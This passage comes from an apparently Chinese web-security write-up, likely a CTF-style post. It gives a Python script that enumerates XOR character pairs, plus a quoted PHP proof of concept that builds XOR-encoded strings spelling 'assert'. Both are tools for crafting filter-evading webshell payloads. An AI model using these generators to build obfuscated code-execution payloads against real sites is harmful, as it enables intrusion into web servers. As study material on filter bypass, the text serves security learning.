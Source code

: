```
            if i < 32 and j < 32: 
                temp = (f'{chr(asscii_number)} = ascii:{i} ^ ascii{j} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number)) 
                results.append(temp) 
            elif i < 32 and j >=32: 
                temp = (f'{chr(asscii_number)} = ascii:{i} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number)) 
                results.append(temp) 
            elif i >= 32 and j < 32: 
                temp = (f'{chr(asscii_number)} = {chr(i)} ^ ascii{j} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number)) 
                results.append(temp) 
            else: 
                temp = (f'{chr(asscii_number)} = {chr(i)} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number)) 
                results.append(temp) 
 
results.sort(key=lambda x:x[1], reverse=False) 
for low_case in string.ascii_lowercase: 
    for result in results: 
        if low_case in result: 
            print(result[0]) 
            
for upper_case in string.ascii_uppercase: 
    for result in results: 
        if upper_case in result: 
            print(result[0])
```

可以返回所有字母的异或组合。`python3 xxx.py > results.txt`

在贴上另一个大佬的poc(https://xz.aliyun.com/t/8107)

```
<?php
$shell = "assert";
$result1 = "";
$result2 = "";
for($num=0;$num<=strlen($shell);$num++)
{
    for($x=33;$x<=126;$x++)
    {
        if(judge(chr($x)))
        {
            for($y=33;$y<=126;$y++)
            {
                if(judge(chr($y)))
                {
                    $f = chr($x)^chr($y);
                    if($f == $shell[$num])
                    {
                        $result1 .= chr($x);
                        $result2 .= chr($y);
                        break 2;
                    }
                }
            }
        }
    }
}
echo $result1;
echo "<br>";
echo $result2;

```